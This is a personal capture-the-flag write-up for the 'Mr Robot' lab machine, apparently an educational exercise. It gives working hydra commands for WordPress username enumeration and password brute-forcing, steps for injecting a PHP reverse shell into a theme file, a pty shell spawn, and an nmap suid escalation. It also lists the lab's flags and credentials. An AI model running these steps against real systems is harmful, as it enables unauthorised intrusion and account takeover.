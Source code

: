 # Mr Robot CTF

## Enum
- Looks like just a web server is up. Along with ssh access
- Ports: 80, 443, 22

## Key 1
- See `/robots.txt`. Points to `/key-1-of-3.txt`
```robots
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Key 1: `073403c8a58a1f80d943455fb30724b9`

## Key 2
- Looks like wordpress might be v4.3.1 according to `/feed/rdf` and Wappalyzer
- Enumerate wordpress usernames with wordpress forgot password page with `hydra -L fsocity.dic -p test 10.10.44.238 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30`
    - user: elliot
- Brute force password for "elliot" with `hydra -l Elliot -P ./fsocity.dic 10.10.44.238 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t30`
    - pass: ER28-0652
- wpscan
```
 | [!] Title: WordPress 4.3-4.7 - Remote Code Execution (RCE) in PHPMailer
 |     Fixed in: 4.3.7
 |     References:
 |      - https://wpscan.com/vulnerability/146d60de-b03c-48c6-9b8b-344100f5c3d6
 |      - https://www.wordfence.com/blog/2016/12/phpmailer-vulnerability/
 |      - https://github.com/PHPMailer/PHPMailer/wiki/About-the-CVE-2016-10033-and-CVE-2016-10045-vulnerabilities
 |      - https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/24767c76d359231642b0ab48437b64e8c6c7f491
 |      - http://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_phpmailer_host_header/

```

- inject [reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) in `archive.php` theme
- execute reverse shell [here](http://10.10.44.238/wp-content/themes/twentyfifteen/archive.php)
- get shell as `daemon` user
- found user `robot`, has an md5 hash of password in `/home/robot` for some reason lol
- crack with crackstation: `abcdefghijklmnopqrstuvwxyz`
- spawn interactive shell with python: `python -c 'import pty; pty.spawn("/bin/bash")'`
- login to robot, key 2 in `/home/robot/key-2-of-3.txt`

- Key 2: `822c73956184f694993bede3eb39f959`

## Key 3
- my first inclination was that the `nmap` suid was the path forward (and it was)
- use `nmap --interactive` > `!sh`

- `/readme`
    ```
    I like where you head is at. However I'm not going to help you.
    ```
- `/license`
    ```
    what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
    ```

- Flag 3: `04787ddef27c3dee1ee161b21670b4e4`


## Mistakes / Takeaways
1. I didn't properly test/execute hydra to enumerate the wordpress users and cracking the password for Elliot
2. After getting access to the `robot` user, I found `nmap` was suid but didn't try all the options available on gtfobins.
